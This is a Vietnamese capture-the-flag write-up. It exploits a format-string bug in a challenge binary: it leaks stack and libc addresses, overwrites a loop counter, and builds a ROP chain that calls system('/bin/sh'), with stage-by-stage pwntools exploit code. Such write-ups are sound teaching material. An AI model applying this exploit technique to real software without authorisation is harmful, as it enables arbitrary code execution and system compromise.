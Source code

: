 # format string + ROPchain

kiểm tra các chế dộ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234209816-cf1db707-3299-4edb-85ec-c3d671b56063.png)

cùng mở IDA để xem luồng thực thi của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234210146-491ca0be-f894-49d5-baa9-02d660fd41b5.png)
 
 Luồng thực thi của chương trình đơn giản như sau 
 
 +) đầu tiên nó gọi hàm Localtime và gieo seed trùng với thời gian chương trình chạy để lấy giờ và in ra những message . đoạn này không đáng quan tâm tại nó chỉ là tính năng của chương trình và không có lỗi 
 
 +) tiếp dó nó cho ta nhập 14 ksy tự vô format được khai báo tới tận 40bytes trước đó =>> no BOF
 
 +) và sau đó nó lại in biến format ra cho ta mà không có bất kỳ format specifier nào =>> fmt vuln
 
 
 # Ý tưởng khai thác
 ta sẽ sử dụng lỗi fmt này để tạo ROPchain tại địa chỉ trả về của hàm main . nhưng vấn đề là ta chỉ có thể sử dụng lỗi format string này 3 lần quá ít và không thể làm gì được .
 vậy nếu ta thay đổi gia trị của của biến i thành một giá tị âm vô cùng nào đó thì ta sẽ có thể sử dụng fmt một cách thoải mái :
 ta hãy cùng kiểm tra chương trình qua GDB, đặt lệnh b* <ngay ở địa chỉ của hàm printf khi nó in ra format của mình vừa nhập > và kiểm tra stack:
 
![image](https://user-images.githubusercontent.com/93699926/234217426-24404091-1bfa-4fce-b4b6-114e7d064184.png)

để ý địa chỉ được đặt trong ô vuông đỏ , đó chính là địa chỉ của i (ngay tại địa chỉ rsp+8) và vì biến i được khai báo là int i nên nó chỉ có 4 byte,vậy nếu ta muốn thay đổi giá trị của i thành số âm thì ta chỉ cần thay đổi byte lớn nhất cảu i thành 0xff là được
 VD: i = 0x00000001 =>> 0xff000001= -16777215
 
 vậy làm vậy bằng cách nào : để ý tại địa chỉ 0x007ffc5902ab08 và 0x007ffc5902ab20 ta có một giá trị stack đang trỏ tơi một giá trị stack khác
 Vậy ta sẽ sử dụng địa chỉ 0x007ffc5902ab20 với %28 để có thể ghi đè giá trị mà nó tỏ tới thành giá trị của rsp+8 và ta sẽ sử dụng chính địa chỉ 0x007ffc5902abf8 với %55 lúc đó dang chứa địa chỉ rsp+8 và thay đổi giá trị của i thành giá trị mà ta mong muốn
 (chú ý: 0x007ffc5902ab20 là giá trị trên stack tại %28 đang trỏ tới một giá tị stack khác và còn 0x007ffc5902abf8 tương ứng với %55 lúc sau là địa chỉ thât trên stack đang chứa địa chỉ của rsp+8 đẫ được ta chỉnh sửa )
 các bạn cũng có thể sử dụng 0x007ffc5902ab08 vơi %25 tương ứng nhưng khi tạo ROPchain hãy dùng %28 đề còn có chỗ mà tạo ROPchain 
 
 ```python
 '''
leak stack-> tinh duoc stack base (tại lần chạy đó)-> tinh duoc dia chi cua i (stack base=leak -0x1e748)
viet i len stack vaf thay doi no (i=stackbase +0x1e5c8)
'''
###### stage 1: leak stack###############
payload=b'%25$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ")
leak=int(p.recv(14),16)
stack=leak-0x1e748
i_address=stack+0x1e5c8
saved_rip=i_address+0x70
log.info('[+]leak:'+hex(leak))
log.info('[+]stack:'+hex(stack))
log.info('[+]i addess:'+hex(i_address))
log.info('[+]saved rip:'+hex(saved_rip))

###### stage2 : over write i address#####
payload=f'%{(i_address&0xffff)+2}c%25$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0xffff}c%55$hn'.encode()
p.sendlineafter(b'Professional): ',payload)
 ```
 
 vì stack sẽ thay đổi sau mỗi lần chạy các giá trị địa chỉ stack cũng vậy , nhưng vì offset không thay đổi nên sau khi ta leak được một giá trị stack thì ta có thể tính được các địa chỉ khác mà ta cần(trừ địa chỉ stack base vì lý do gì đó nhưng cứ tính stack base ở lần chạy trên máy rồi dúng stack base đó tính các giá trị khác thì vẫn đúng)
 
 kiểm tra stack ta thấy như sau :
 
 ![image](https://user-images.githubusercontent.com/93699926/234217987-4a3e8834-baa9-4d42-82bc-923b96e37589.png)
 
  ta đã thành công thay đổi giá trị của i thành 0xffff0003=-65533 với giá trị này thì có mà tạo được 10 cái ROPchain .ok moving on
  
  để tạo ROPchain thì ta sẽ cần kiếm các gadget phù hợp để ta sẽ lấy nó ra từ chính file libc (lưu ý là bài này sử dụng file libc.so.6) có sẵn trên máy , mình chạy thử lần đầu trên sever may mắn được luôn nên không phải đi kiếm libc nữa 
  
  Để mà sử dụng các gadget của file libc thì ta cần leak được địac hcỉ libc và sau đó tính base của nó , dùng ropper --f libc.6.so để kiếm offset của các gadget cần tìm (rồi cộng với libc base thì sẽ có thể sử dụng gadget đó ).ok script như sau :
  ```python
  ########stage3 leak libc###
payload=b'%21$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ",drop=True)
p.recvuntil(b" You: ")
leak2=int(p.recv(14),16)
libc.address=leak2-0x29d90
log.info('[+]leak2:'+hex(leak2))
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]/bin/sh:'+hex(next(libc.search(b'/bin/sh'))))
log.info('[+]system:'+hex(libc.sym['system']))
pop_rdi=libc.address+0x000000000002a3e5
pop_rsi=libc.address+0x000000000002be51
bin_sh=next(libc.search(b'/bin/sh'))
ret=libc.address+0x0000000000029cd6
  ```
 tiếp theo là ghi các gadget lần lượt bắt đầu từ saved rip của của main đến các địa chỉ trên stack kế sau nó và set lại giá trị i thành 2 để chương trình return và ta sẽ có shell 
 
 Mình có viết mọt function để thuận tiệp cho việc tạo ROPchain như sau :
 ```python
 log.info('[+]ROPPING')
def ROP(address,gadget):
    payload=f'%{(address&0xffff)}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{gadget&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int('0x'+str(hex(gadget))[6:10],16)
    payload=f'%{(address&0xffff)+2}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int(str(hex(gadget))[0:6],16)
    payload=f'%{(address&0xffff)+4}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)
 ``` 

hmm nó cũng giống như lúc ghi giá trị của i thành 0xff000003 thôi nhé 
đã có func để tạo ROP rồi thì tạo rop thui 
```python
ROP(saved_rip,pop_rsi)
ROP(saved_rip+16,pop_rdi)
ROP(saved_rip+24,bin_sh)
ROP(saved_rip+32,ret)
ROP(saved_rip+40,libc.sym['system'])


#######return##############
payload=f'%{(i_address&0xffff)+2}c%28$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0x2}c%55$n'.encode()
p.sendlineafter(b'Professional): ',payload)
## get shell
p.interactive() 
```
full script in p.py
chạy chương trình trên sever ta có shell và flag :

![image](https://user-images.githubusercontent.com/93699926/234221422-896355a8-d0e2-42e4-a524-8577e54095c3.png)



